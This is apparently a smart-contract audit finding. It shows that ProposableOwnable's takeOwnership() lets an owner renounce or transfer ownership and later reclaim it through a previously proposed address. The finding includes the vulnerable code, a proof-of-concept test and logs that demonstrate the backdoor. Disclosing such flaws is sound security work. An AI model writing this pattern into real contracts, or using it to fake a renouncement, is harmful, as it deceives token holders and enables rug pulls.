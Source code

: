 Any address that is stored in the `proposedOwner` slot can seize ownership of the contract at any point:
```solidity
function takeOwnership(address newOwner) public virtual {
    require(
        newOwner != address(0),
        "ProposableOwnable: new owner is the zero address"
    );
    require(
        newOwner == proposedOwner,
        "ProposableOwnable: new owner is not proposed owner"
    );
    require(
        newOwner == msg.sender,
        "ProposableOwnable: this call must be made by the new owner"
    );
    _transferOwnership(newOwner);
}
```
This means that ownership can be renounced or transferred with a backdoor left to seize ownership back later.

**Proof of Concept**

To accomplish this attack, an owner would:
- propose a new owner of an address they control
- renounce their ownership, or transfer it to a new owner
- later, call `takeOwnership()` from the proposed owner address to seize it back.

Here is a test that can be dropped into your test suite to demonstrate this behavior:
```solidity
function testZ__ProposedOwner() public {
    // Initialize a token that uses ProposableOwnable, setting myself to owner
    IndexToken token = new IndexToken();
    token.initialize("Fake Token", "FAKE", 1e18);
    console.log(token.owner());

    // Propose myself as the new owner.
    token.proposeOwner(address(this));

    // Renounce my ownership, apparently giving up control.
    token.renounceOwnership();
    console.log(token.owner());

    // Because I'm still in the proposedOwner slot, I can still reclaim.
    token.takeOwnership(address(this));
    console.log(token.owner());
}
```

```
Logs:
  0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
  0x0000000000000000000000000000000000000000
  0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
```
